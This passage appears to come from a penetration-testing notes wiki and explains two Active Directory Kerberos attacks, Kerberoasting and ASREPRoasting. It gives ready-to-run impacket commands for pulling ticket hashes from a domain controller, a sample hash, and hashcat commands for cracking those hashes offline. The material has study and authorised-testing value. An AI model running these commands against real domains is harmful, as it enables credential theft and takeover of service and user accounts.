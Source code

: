 1. Query the AD to identify service accounts with registered SPNs
2. Request a Ticket Granting Service (TGS) ticket for the identified service account using any compromised user. In response, receive the encrypted TGS with the password hash
3. Attempt to crack the password hash offline, and when found, take over the service account

The first step can be checked easily in BloodHound under the **Analysis** tab as **List all Kerberoastable Accounts**. After which, you can use [`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) from impacket to request a ticket and receive the crackable password hash.

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ GetUserSPNs.py -request -outputfile kerberoast.hashes -dc-ip $DC '$DOMAIN/$USERNAME:$PASSWORD'
</strong>...
$krb5tgs$23$*user$realm$test/spn*$63386d22d359fe42230300d56852c9eb$891ad31...b668c5ed
</code></pre>

These can then be cracked offline with tools like [#hashcat](../cryptography/hashing/cracking-hashes.md#hashcat "mention"):

```bash
hashcat -m 13100 kerberoast.hashes /list/rockyou.txt
```

{% hint style="info" %}
**Note**: Complete domain credentials are not required for this attack to work. [ntlm.md](windows-authentication/ntlm.md "mention") hashes (using `-H`) or even for accounts vulnerable to [#asreproasting](lateral-movement.md#asreproasting "mention") ([reference](https://github.com/fortra/impacket/pull/1413))
{% endhint %}

### ASREPRoasting

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/asreproast" %}
Abusing accounts without pre-authentication to receive hashes crackable offline
{% endembed %}

This attack can be done by speaking to the domain controller, not even a valid account is needed. You can use a list of users you found to check if they are vulnerable even without authenticating. But authentication allows you to query the LDAP server to get every existing user for sure:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># Using a list of users (no authentication)
<strong>GetNPUsers.py -request -format hashcat -outputfile asreproast.hashes -dc-ip $DC -usersfile users.txt '$DOMAIN/'
</strong># With authentication by querying
<strong>GetNPUsers.py -request -format hashcat -outputfile asreproast.hashes -dc-ip $DC '$DOMAIN/$USERNAME:$PASSWORD'
</strong></code></pre>

Hashes resulting from this attack can then be cracked using [#hashcat](../cryptography/hashing/cracking-hashes.md#hashcat "mention"):

```bash
hashcat -m 18200 asreproast.hashes /list/rockyou.txt
```
